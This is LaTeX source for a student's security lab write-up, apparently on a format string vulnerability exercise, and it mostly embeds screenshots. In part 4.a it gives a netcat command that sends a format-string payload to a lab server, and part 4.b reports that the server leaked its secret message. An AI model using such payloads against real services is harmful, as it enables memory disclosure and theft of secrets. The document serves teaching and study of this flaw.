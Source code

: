 \documentclass[12pt, a4paper]{article}
\begin{document}
\begin{figure}[ht!]
\centering
\includegraphics[width=90mm]{"Capture6.png"}\\

\includegraphics[width=90mm]{"Capture7.png"} \\

\includegraphics[width=90mm]{"Capture8.png"} \\
\end{figure}
.\\ \\ \\

.\\
\noindent
4.a.\\
As shown in the third figure accompanying problem 2, by printing 
\begin{verbatim}
echo "AAAA.%x.%x.%x.%x.%x.%x.%s" | nc -u 10.0.2.4 9090
\end{verbatim}
, I was able to have the server print my input using 8 format specifiers \\ \\ \\

\noindent
4.b.\\
By running the string (top) on the client, the server responded by printing its secret message, shown on the bottom.
\begin{figure}[ht!]
\centering
\includegraphics[width=90mm]{"Capture9.png"} \\

\includegraphics[width=90mm]{"Capture10.png"} \\
\end{figure}
.\\ \\ \\
\end{document}
